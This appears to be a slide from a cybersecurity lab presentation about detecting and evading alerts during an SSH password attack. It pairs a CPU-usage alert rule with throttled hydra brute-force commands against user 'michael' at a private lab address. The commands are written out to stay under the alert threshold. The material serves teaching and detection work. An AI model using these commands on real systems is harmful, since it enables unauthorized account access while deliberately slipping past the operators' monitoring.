

# Stealth Exploitation of [Weak User Password]
Monitoring Overview
Which alerts detect this exploit? CPU Usage Monitoring
METRIC = WHEN max() OF system.process.cpu.total pct OVER all documents
THRESHOLD = IS ABOVE 0.5 (or norm)

Mitigating Detection
How can you execute the same exploit without triggering the alert? $ hydra -l michael -t 4 P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
-t limits tasks per attempt
-w defines max wait time
$ hydra -l michael -w 5 P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
14